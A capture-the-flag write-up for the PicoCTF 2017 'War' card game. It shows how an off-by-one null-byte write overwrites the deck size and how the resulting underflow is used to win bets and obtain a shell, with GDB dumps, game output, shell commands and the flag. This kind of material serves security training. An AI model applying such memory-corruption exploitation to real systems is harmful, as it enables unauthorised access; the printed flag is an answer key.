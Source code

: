 # PicoCTF_2017: War

**Category:** Master
**Points:** 125
**Description:**

>Win a simple [Card Game](war). [Source](war.c). Connect on shell2017.picoctf.com:44698.

**Hint:**

>Bugs typically happen in groups. If you find one, what does it allow you to do?

## Write-up
Before I start, I would like to say that it took me 6 days for this challenge. For how surprisingly easy it was to solve at the end. Shame on me but now I shall redeem myself by shortening 6 days of agony to a writeup.

Firstly, we need to identify the bugs in this challenge, as it doesn't appear that there's anything buffer overflowable. By doing some rubber-ducking, we come across this function `readInput()`. I've done some rubber ducking here to give you a better view of things

    //Reads input from user, and properly terminates the string
    unsigned int readInput(char * buff, unsigned int len){ // For an example if betBuffer with len 8
        size_t count = 0;
        char c;
        while((c = getchar()) != '\n' && c != EOF){
            if(count < (len-1)){ // While count is 6 or less
                buff[count] = c;
                count++; // Count ++ means count becomes 7 here
            }
        }
        buff[count+1] = '\x00'; // Inputting a null byte to index 8? O.o <- THIS IS ARRAY OVERFLOW111!!!!11!1
        return count;
    }

Interesting, now we have the ability to erase one extra byte of anything after a buffer. Completely useless. Or is it? If we take a look at the two buffers that `readInput()` would read to, we come across these two buffers.

    char betStr[BETBUFFLEN];
    card * oppCard;

and
    
    char name[NAMEBUFFLEN];
    size_t deckSize;

Since we aren't too sure if the pointer for `oppCard` actually comes after the buffer in this scenario, let's target the `name` buffer. This calls for `GDB`.

First, let's try some input of just 31 bytes, to see a non-interrupted or overflowed memory region.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41410000  0x1a000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

The memory is in big-endian for viewing pleasure. So, we see a bunch of `41`s, representing our `A`. This is very helpful, and we also see a `1a` right afterwards. `1a` in hex, also equates to `26` in decimal. The only thing that's `26` in the code, is `deckSize`. Great, that matches up with our code. Now let's try breaking the array by 1.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0x00000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Where's the `1a` now? Turns out, it's been completely overwritten by the null byte. What does this mean? Where's the flag? Well, if there's a null byte for decksize, this part of the code helps us.

    //TODO: Implement card switching hands. Cheap hack here for playability
    gameData.deckSize--;
    if(gameData.deckSize == 0){
        printf("All card used. Card switching will be implemented in v1.0, someday.\n");
        exit(0);
    }

So, in this event, when we try to play a card, the memory region breaks because `0x0000000000000000` minus `1` = `0xffffffffffffffff`. Win.

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0xffffffff  0xffffffff
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Theoretically, this means we are free to keep playing, since we are only limited by 100 coins or deck size of `26` which is now astronomically too big. So let's try to keep betting 1 till something happens. After the initial `26` cards, we are now left with 0 cards and this happens.

    The opponent has a 0 of suit 0.
    You have a 0 of suit 0.
    You lost! :(

    You have 73 coins.
    How much would you like to bet?

Let's keep pushing. By now, we are accessing areas in the memory outside our actual decks, so we are bound to get crazy numbers like,

    How much would you like to bet?
    1
    The opponent has a 0 of suit 0.
    You have a 65 of suit 65.
    You won? Hmmm something must be wrong...
    Cheater. That's not actually a valid card.

    You have 48 coins.
    How much would you like to bet?
    1
    The opponent has a 0 of suit 0.
    You have a 65 of suit 65.
    You won? Hmmm something must be wrong...
    Cheater. That's not actually a valid card.

    You have 48 coins.
    How much would you like to bet?

Let's keep going,

    How much would you like to bet?
    1
    you bet 1.
    The opponent has a 0 of suit 0.
    You have a -1 of suit -68.
    You lost! :(

Woah, negative numbers! Suddenly,

    you bet 1.
    The opponent has a 0 of suit 0.
    You have a 13 of suit 0.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 22 coins.
    How much would you like to bet?

Bingo. Now let's try to recoup our losses shall we! (_Don't do this in real life, you will go bankrupt._)

    You have 22 coins.
    How much would you like to bet?
    22
    you bet 22.
    The opponent has a 0 of suit 0.
    You have a 9 of suit 2.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 44 coins.
    How much would you like to bet?
    44
    you bet 44.
    The opponent has a 0 of suit 0.
    You have a 11 of suit 1.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 88 coins.
    How much would you like to bet?
    88
    you bet 88.
    The opponent has a 0 of suit 0.
    You have a 11 of suit 3.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 176 coins.
    How much would you like to bet?
    176
    you bet 176.
    The opponent has a 0 of suit 0.
    You have a 12 of suit 3.
    You won? Hmmm something must be wrong...
    You actually won! Nice job

    You have 352 coins.
    How much would you like to bet?
    352
    you bet 352.
    The opponent has a 0 of suit 0.
    You have a 13 of suit 1.
    You won? Hmmm something must be wrong...
    You actually won! Nice job
    You won the game! That's real impressive, seeing as the deck was rigged...
    /bin/sh: 0: can't access tty; job control turned off
    $ ls
    flag.txt
    war
    war_no_aslr
    xinetd_wrapper.sh
    $ cat flag.txt
    04ab44dab3330a7633d9956b789f2769

Therefore, the flag is `04ab44dab3330a7633d9956b789f2769`.